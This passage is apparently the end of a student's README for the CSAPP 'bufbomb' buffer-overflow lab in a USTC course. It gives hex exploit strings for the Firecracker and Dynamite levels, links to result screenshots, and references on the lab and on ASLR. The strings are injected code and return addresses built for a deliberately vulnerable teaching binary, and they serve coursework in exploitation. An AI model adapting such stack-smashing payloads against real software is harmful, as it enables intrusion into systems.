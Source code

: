 	![sparkler](https://github.com/jJayyyyyyy/USTC-2018-Smester-1/blob/master/CSAPP/exp/lab03/assets/result2.png)

*	Level2: Firecracker

	exploit.txt

	> c7 05 dc a1 04 08 e9 7d b9 5f 68 60 8d 04 08 c3 2c ba ff ff

	![firecracker](https://github.com/jJayyyyyyy/USTC-2018-Smester-1/blob/master/CSAPP/exp/lab03/assets/result3.png)

*	Level3: Dynamite

	exploit.txt

	> b8 e9 7d b9 5f 68 1e 90 04 08 c3 00 58 ba ff ff 2c ba ff ff

	![Dynamite](https://github.com/jJayyyyyyy/USTC-2018-Smester-1/blob/master/CSAPP/exp/lab03/assets/result4.png)

	<br>

##	参考资料

*	[实验三指导书](http://ssea.ustcsz.edu.cn:443/UploadFiles/experimentResources/20181102/%E5%AE%9E%E9%AA%8C%E4%B8%89%E6%8C%87%E5%AF%BC%E4%B9%A6_20151219101717168_2018112202849933.pdf)
*	[实验三简介](http://ssea.ustcsz.edu.cn:443/UploadFiles/experimentResources/20181102/%E5%AE%9E%E9%AA%8C%E5%AE%A4%E4%B8%89%E7%AE%80%E4%BB%8B_2015121910173153_2018112202854158.ppt)
*	[Bufbomb缓冲区溢出攻击实验详解-CSAPP](https://www.jianshu.com/p/dc41c84cef17)
*	[CSAPP:bufbomb](https://zybuluo.com/windmelon/note/1334269)
*	[execstack, ASLR](https://blog.csdn.net/z1185196212/article/details/52960357)
*	[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)
